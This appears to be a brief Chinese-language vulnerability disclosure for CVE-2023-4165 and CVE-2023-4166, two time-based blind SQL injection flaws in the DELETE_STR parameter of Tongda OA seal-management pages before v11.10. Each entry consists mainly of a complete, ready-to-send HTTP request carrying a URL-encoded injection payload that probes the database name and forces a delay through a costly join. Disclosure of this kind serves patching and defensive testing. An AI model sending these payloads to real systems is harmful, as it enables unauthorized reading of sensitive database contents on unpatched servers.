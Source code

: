 ## CVE-2023-4165：

  /general/system/seal_manage/iweboffice/delete_seal.php路径下的DELETE_STR参数存在SQL注入漏洞，可能导致通过SQL盲注（延时注入）获取数据库中的敏感信息。

  ```
GET /general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
  ```

## CVE-2023-4166：

  /general/system/seal_manage/dianju/delete_log.php路径下的$DELETE_STR参数存在SQL注入漏洞，可能导致通过SQL盲注（延时注入）获取数据库中的敏感信息。

  ```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
  ```

  
  ## 印象范围
  通达OA < v11.10

